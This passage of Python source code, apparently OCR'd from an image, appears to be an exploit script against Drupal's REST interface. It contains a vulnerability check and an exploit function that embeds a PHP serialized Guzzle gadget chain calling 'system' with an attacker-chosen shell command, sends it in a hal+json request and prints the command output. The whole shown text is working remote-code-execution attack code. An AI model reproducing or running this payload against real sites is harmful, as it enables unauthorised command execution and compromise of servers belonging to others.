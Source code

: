         u = build_url(base, '/node/', str(node_id))
        r = requests.get(f'{u}?_format=hal_json', json=payload, headers={"Content-Type": "application/hal+json"})

        if check_drupal_cache(r):
            print(f'Checking if node {node_id} is vuln returned cache HIT, ignoring')
            return False

        if 'INVALID_VALUE does not correspond to an entity on this site' in r.text:
            return True

        return False


    def exploit(base: str, node_id: int, cmd: str):
        """
            Exploit using the Guzzle Gadgets
        """

        # pad a easy search replace output:
        cmd = 'echo ---- & ' + cmd
        payload = {
            "link": [
                {
                    "value": "link",
                    "options": "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\u0000"
                               "GuzzleHttp\\Psr7\\FnStream\u0000methods\";a:1:{s:5:\""
                               "close\";a:2:{i:0;O:23:\"GuzzleHttp\\HandlerStack\":3:"
                               "{s:32:\"\u0000GuzzleHttp\\HandlerStack\u0000handler\";"
                               "s:|size|:\"|command|\";s:30:\"\u0000GuzzleHttp\\HandlerStack\u0000"
                               "stack\";a:1:{i:0;a:1:{i:0;s:6:\"system\";}}s:31:\"\u0000"
                               "GuzzleHttp\\HandlerStack\u0000cached\";b:0;}i:1;s:7:\""
                               "resolve\";}}s:9:\"_fn_close\";a:2:{i:0;r:4;i:1;s:7:\"resolve\";}}"
                               "".replace('|size|', str(len(cmd))).replace('|command|', cmd)
                }
            ],
            "_links": {
                "type": {
                    "href": f"{urljoin(base, '/rest/type/shortcut/default')}"
                }
            }
        }

        u = build_url(base, '/node/', str(node_id))
        r = requests.get(f'{u}?_format=hal_json', json=payload, headers={"Content-Type": "application/hal+json"})

        if check_drupal_cache(r):
            print(f'Exploiting {node_id} returned cache HIT, may have failed')

        if '----' not in r.text:
            print('[warn] Command execution _may_ have failed')

        print(r.text.split('----')[1])
